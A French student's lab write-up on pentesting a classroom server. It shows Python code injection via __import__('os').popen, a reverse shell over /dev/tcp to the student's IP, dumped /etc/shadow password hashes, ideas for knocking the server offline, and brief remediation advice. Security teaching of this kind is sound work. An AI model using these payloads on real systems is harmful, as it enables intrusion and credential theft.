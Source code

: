 # TP5 SECU : Exploit, pwn, fix

## I. Pentest

### 1. Reconnaissance

🌞 Déterminer

- **à quelle IP ce client essaie de se co quand on le lance**

En utilisant wireshark, on peut voir que le client essaie de se connecter à l'IP "10.1.1.2".

- **à quel port il essaie de se co sur cette IP**

En utilisant wireshark, on peut voir que le client essaie de se connecter au port "1337".


🌞 Scanner le réseau

[Scan nmap](/TP5/tcp.pcapng)

🌞 Connectez-vous au serveur

```
host = '10.33.72.148'
port = 13337   
```

### 2. Exploit

🌞 Injecter du code serveur

```
nc 10.33.72.148 13337
Ok
Hello__import__('os').popen('ls').read()
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

### 3. Reverse shell

🌞 Obtenez un reverse shell sur le serveur

Sur un premier shell, on écoute sur le port 9999.

```
nc -lvnp 9999
listening on 0.0.0.0 9999 ...
```

Sur un second shell, on envoie la commande suivante.

```
nc 10.33.72.148 13337
Ok
Hello__import__('os').popen('sh -i >& /dev/tcp/10.33.73.79/9999 0>&1').read()
```

On obtient un reverse shell.

🌞 Pwn

```
# cat /etc/shadow
root:$6$zEk1UBcRHlrijLhs$/1dzLO/IL.CSZuDFqhGsfwqMWLqcEqANgi/zoptiNyztK3PKX4uX.TBRaoaZ120sTVCT7awPUUF3s62Hs2yfN.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19653::::::
dbus:!!:19653::::::
tss:!!:19653::::::
sssd:!!:19653::::::
sshd:!!:19653::::::
chrony:!!:19653::::::
systemd-oom:!*:19653::::::
hugo:$6$Y5.0u9zww/X1I33x$PZxU8Ghsb7UOgEpRgjWERYj/Un58bEOig3MYF90y5fo9H.X5sZ6qluhSKqxekAPkwMU6sxw3fn.Z1TZ2bVrdF/::0:99999:7:::
tcpdump:!!:19653::::::
netdata:!!:20014::::::

# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
hugo:x:1000:1000:hugo:/home/hugo:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
netdata:x:991:991:NetData User:/var/log/netdata:/sbin/nologin
```

### 4. Bonus : DOS

⭐ BONUS : DOS l'application

Comme l'ip du serveur est celle d'un camarade, le DOS n'est pas forcément super sympa. On peut cependant imaginer qu'en envoyant une commande **shutdown**, on pourrait éteindre le serveur. La commande **sleep** permet de faire attendre le serveur pendant un certain temps avant de s'éteindre. Enfin, on peut aussi supprimer le fichier ifcfg qui gère l'ip, et restart NetworkManager.

## II. Remédiation

🌞 Proposer une remédiation dév

- **Vérifier les entrées utilisateurs**

- **Utiliser des librairies sécurisées**

- **Utiliser des outils de sécurité**

🌞 Proposer une remédiation système

- **Mettre à jour le système**

- **Utiliser des outils de sécurité**

- **Utiliser des outils de surveillance**

- **Utiliser des outils de détection d'intrusion**

- **Bloquer les ports non utilisés**

- **Bloquer les adresses IP non autorisées**

- **Bloquer les protocoles non autorisés**

- **Bloquer les services non autorisés**

